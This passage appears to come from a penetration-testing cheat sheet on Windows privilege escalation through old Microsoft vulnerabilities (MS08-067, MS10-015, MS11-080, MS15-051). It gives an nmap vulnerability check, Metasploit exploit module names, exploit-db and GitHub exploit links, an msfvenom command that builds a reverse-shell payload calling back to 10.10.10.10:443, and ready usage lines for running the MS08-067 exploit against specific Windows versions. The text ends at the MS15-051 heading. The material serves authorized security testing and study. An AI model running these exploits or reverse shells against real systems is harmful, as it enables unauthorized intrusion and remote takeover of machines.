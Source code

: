 ## EoP - Common Vulnerabilities and Exposure

### MS08-067 (NetAPI)

Check the vulnerability with the following nmap script.

```c
nmap -Pn -p445 --open --max-hostgroup 3 --script smb-vuln-ms08-067 <ip_netblock>
```

Metasploit modules to exploit `MS08-067 NetAPI`.

```powershell
exploit/windows/smb/ms08_067_netapi
```

If you can't use Metasploit and only want a reverse shell.

```powershell
https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows

Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)
python ms08-067.py 10.0.0.1 6 445
```


### MS10-015 (KiTrap0D) - Microsoft Windows NT/2000/2003/2008/XP/Vista/7 

'KiTrap0D' User Mode to Ring Escalation (MS10-015)

```powershell
https://www.exploit-db.com/exploits/11199

Metasploit : exploit/windows/local/ms10_015_kitrap0d
```

### MS11-080 (afd.sys) - Microsoft Windows XP/2003

```powershell
Python: https://www.exploit-db.com/exploits/18176
Metasploit: exploit/windows/local/ms11_080_afdjoinleaf
```

### MS15-051 (Client Copy Image) - Microsoft Windows 2003/2008/7/8/2012
